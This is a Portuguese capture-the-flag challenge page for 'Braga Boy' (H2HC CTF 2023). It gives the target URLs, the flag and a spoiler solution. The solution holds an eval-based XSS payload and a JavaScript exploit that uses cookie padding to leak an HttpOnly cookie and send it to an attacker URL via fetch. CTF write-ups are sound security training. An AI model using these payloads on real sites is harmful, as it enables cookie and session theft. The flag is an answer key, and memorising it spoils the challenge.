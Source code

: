 # Braga Boy

## Descrição

>Para dançar, isso aqui é (bomba)

>Para balançar, isso aqui é (bomba)

>Para mexer, isso aqui é (bomba)

- `http://default.xss.bragaboys.ctfh2hc2023.win:8081/index.php`
- `http://admin.xss.bragaboys.ctfh2hc2023.win:8081/index.php`
- `http://ip:8480/`

## Flag

`h2hc-ctf{big_p4dding_b3fore_cookie_b0mb_|<ills_http_0nly}`

## Portas

- Applicação: 8081
- Bot: 8480

## Solve
<details>
<summary>Spoiler</summary>

- XSS

```
http://default.xss.bragaboys.ctfh2hc2023.win:8081/index.php?nome=123%27&nome=%27,eval(location.hash.split(%27%23%27)[1]));function+dumbb_console(){};let%20a%20=(%27#alert()
```

- Exploit

```js
let flag="h2hc-ctf"
let padding_size = 0;
let found_begining = false;
let number_of_tries = 0;
let try_again = true;
let exfil_url = "http://yoururl:8081/"

async function exfil_flag(flag){
    console.log(`Exfiltrating ${flag} to ${exfil_url}`)
    await fetch(`${exfil_url}?cookie=${btoa(flag)}`, {mode: 'no-cors'})
}

async function get_flag(){
    console.log("Getting cookies")
    document.cookie = "flag" + "=" + "a".repeat(700) + "; path=/index.php; domain=.xss.bragaboys.ctfh2hc2023.win";
    while ( try_again == true){
        document.cookie = "flag" + "=" + "b".repeat(600) + "c".repeat(padding_size) + "; path=/;";

        var url = "http://default.xss.bragaboys.ctfh2hc2023.win:8081/index.php";

        var response = await fetch(url, {credentials: 'include'});
        var text = await response.text();
        cookie = text.split("...")[1].split("...")[0];
        if ( found_begining == false){
            if (cookie.includes("h2hc-ctf{")){
                console.log("found begining")
                found_begining = true;
                continue
            }
            console.log("Cookies:"+cookie);
            console.log("Adding more Padding length until found flag start" + padding_size)
            padding_size+=1;
        }
        else {
            console.log("adding padding until found end of flag")
            console.log("found", cookie.charAt(cookie.length - 2));
            console.log("Cookie", cookie);
            flag+=cookie.charAt(cookie.length - 2);
            console.log("Flag:"+flag)
            padding_size+=2;
        }
        if (cookie.includes("}")){
            console.log("found end")
            console.log("Flag:"+flag)
            await exfil_flag(flag);
            return
        }
        console.log("Cookies:"+cookie);
        number_of_tries+=1;
        if (number_of_tries > 500){
            try_again = false;
        }
    }
}
get_flag();
```
</details>

